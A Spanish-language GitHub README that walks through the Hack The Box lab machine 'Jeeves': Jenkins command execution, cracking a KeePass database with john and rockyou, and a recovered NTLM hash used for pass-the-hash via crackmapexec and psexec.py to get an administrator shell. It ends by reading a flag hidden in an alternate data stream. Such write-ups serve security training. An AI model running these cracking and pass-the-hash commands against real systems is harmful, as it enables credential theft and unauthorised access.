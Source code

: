 # Jeeves-HTB


## NMAP 

![image](https://github.com/gecr07/Jeeves-HTB/assets/63270579/80858071-c2b7-4e78-b9b7-45587dc34548)

el puerto 80 es un rabbit hole

## RCE

Buscamos en hacktricks lo mas comun de jenkins y lo que vimos es que se pueden ejecutar comandos de varias maneras...

![image](https://github.com/gecr07/Jeeves-HTB/assets/63270579/3be34640-d0fb-4f22-9dc3-657502160678)


### Windows exploit suggester Next generation

WES-NG is a tool based on the output of Windows' systeminfo utility which provides the list of vulnerabilities the OS is vulnerable to, including any exploits for these vulnerabilities. Every Windows OS between Windows XP and Windows 11, including their Windows Server counterparts, is supported.

> https://github.com/bitsadmin/wesng

Tiene la capacidad de con el output del systeminfo genera las vulns pero da muchos falsos positivos.

## Priv esca

Buscando tenemos un archivo de keepass ***.kdbx***

```
keepass2john CEH.kdbx

john -w=/usr/share/wordlists/rockyou.txt hash

```

Vamos a usar el keepass cli instalalo en kali como cualquier paquete.


```
kpcli --kdb CEH.kdbx
## Buscar todo los pass
find .
# mostramos dependiendo del numero 
 show -f 0
```

![image](https://github.com/gecr07/Jeeves-HTB/assets/63270579/40423b6b-98f1-4120-9165-999406ac0309)

Buscando todas las credenciales encontramos un hash que parece ser ntlm

```
aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00

```

Solo como cultura la primera parte es el hash del espacio en blanco (aad3b435b51404eeaad3b435b51404ee). Con crackmapexec podemos probar con pass the hash a ver si es el hash del Administrator.

![image](https://github.com/gecr07/Jeeves-HTB/assets/63270579/7ede367e-3870-4215-9e41-0d764c1ee281)


```
crackmapexec smb 10.129.185.202 -u 'Adminsitrator' -H e0fb1fb85756c24235ff238cbe81fe00
/usr/share/doc/python3-impacket/examples/psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00 administrator@10.129.16.56 cmd.exe
```


## Alternative data streams

![image](https://github.com/gecr07/Jeeves-HTB/assets/63270579/6edd59cf-330a-4f51-810d-14e8c3ede5b6)


Es una manera de esconder cosas y se ve algo como esto:


Para listar este tipo de archivos

```
dir /R
more < hm.txt:root.txt

```


## Bibliogrgafia

> https://hacktricks.boitatech.com.br/pentesting/pentesting-web/jenkins































